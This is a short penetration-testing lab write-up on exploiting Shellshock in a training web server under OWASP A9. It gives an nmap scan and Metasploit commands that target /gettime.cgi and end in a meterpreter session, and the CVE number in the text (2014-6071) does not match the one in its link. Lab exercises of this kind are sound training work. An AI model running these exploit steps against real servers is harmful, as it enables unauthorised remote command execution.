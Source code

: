 [OWASP Top 10](https://owasp.org/www-project-top-ten/) is an awareness document, which outlines the most critical security risks to web applications. Pentesting is performed according to the OWASP TOP 10 standard to reduce/mitigate the security risks.

In the exercise, we will focus on [OWASP A9 Using Components with Known Vulnerabilities](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A9-Using_Components_with_Known_Vulnerabilities) flaws and we perform attack against a web server which is vulnerable to [CVE-2014-6071](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-6271) .

Objective: Exploit the vulnerability and execute arbitrary commands on the target machine. 

Instructions: 

- This lab is dedicated to you! No other users are on this network :)
- Once you start the lab, you will have access to a Kali GUI instance.
- Your Kali instance has an interface with IP address 192.X.Y.2. Run "ip addr" to know the values of X and Y.
- Do not attack the gateway located at IP address 192.X.Y.1

LHOST = 192.184.200.2
RHOST= 192.184.200.3

```
nmap -p- -sS -sV -T 4 -v 192.184.200.3


```

Exploit shell shock vuln
```
msfconsole 
use auxiliary(scanner/http/apache_mod_cgi_bash_env)
set targeturi /gettime.cgi
setg rhosts 192.184.200.3
setg rhost 192.184.200.3
```

or 

```
exploit(multi/http/apache_mod_cgi_bash_env_exec)
set rhosts 192.184.200.3
set targeturi /gettime.cgi
exploit
meterpreter> 
```